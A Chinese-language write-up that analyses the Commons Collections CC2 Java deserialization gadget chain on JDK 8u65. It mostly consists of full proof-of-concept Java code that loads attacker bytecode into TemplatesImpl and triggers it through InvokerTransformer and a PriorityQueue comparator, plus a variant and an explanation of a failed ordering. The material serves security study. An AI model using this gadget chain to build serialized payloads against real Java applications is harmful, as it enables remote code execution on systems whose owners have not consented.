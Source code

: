 # 分析版本

Commons Collections 4.0

JDK 8u65

环境配置参考[JAVA安全初探(三):CC1链全分析](https://xz.aliyun.com/t/12669?time__1311=mqmhDvqIxfgD8DlxGo4%2bxCw67o7KKG=z4D&amp;alichlgref=https://www.google.com/)

# 分析过程

CC2是在CC4的基础上做了一点改动，和之前CC3结合CC1 InvokerTransformer一样的。

因为TemplatesImpl是可序列化的，利用反射把TemplatesImpl参数控制好之后，直接用InvokerTransformer执行TemplatesImpl.newTransformer，就可以调用defineClass，实现任意命令执行了。（不再使用TrAXFilter）

![image-20240708153515226](https://s2.loli.net/2024/07/08/3UrjzYGQxihlpwe.png)

更新Poc

```java
public class cc2 {
    public static void main(String[] args) throws Exception {
        //CC2
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());


        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1)); //改为ConstantTransformer,把利用链断掉
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(1);

        ///Class transformingComparatorClass = TransformingComparator.class;  //也可以
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator, chainedTransformer);

        //cc4.serialize(priorityQueue);
        cc4.unserialize("ss.ser");

    }
}
```



## 补充

关于templates传入还有一种方法就是不用new ConstantTransformer(templates)传值，而是用priorityQueue.add(templates);

```java
public class cc2 {
    public static void main(String[] args) throws Exception {
        //CC2
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", null, null);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1)); //改为ConstantTransformer,把利用链断掉
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(1);


        ///Class transformingComparatorClass = TransformingComparator.class;  //也可以
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator, invokerTransformer);

        //cc4.serialize(priorityQueue);
        cc4.unserialize("ss.ser");

    }
}
```

priorityQueue.add(templates);会执行到下图方法

此方法是直接给transformer方法参数传值templates（CC1中ConstantTransformer的引入是为了解决无法给InvokerTransformer方法传值的问题，而这里是可以控制传值，所以我们可以不用ConstantTransformer）

![image-20240708170653485](https://s2.loli.net/2024/07/08/jT7n3krJbNB945X.png)

![image-20240708173755568](https://s2.loli.net/2024/07/08/tYIW5AkyaUfe6cu.png)

还存在一个问题如果，Poc这样传值会发现，无法弹出计算器

```java
    priorityQueue.add(1);
    priorityQueue.add(templates);
```

可以对比上图正确的Poc，下图代码执行时去找1的newTransformer，找不到抛出了错误。在执行第二行代码之前，程序就结束了。

![image-20240708174011165](https://s2.loli.net/2024/07/08/lHZyWwsNhG5ngzj.png)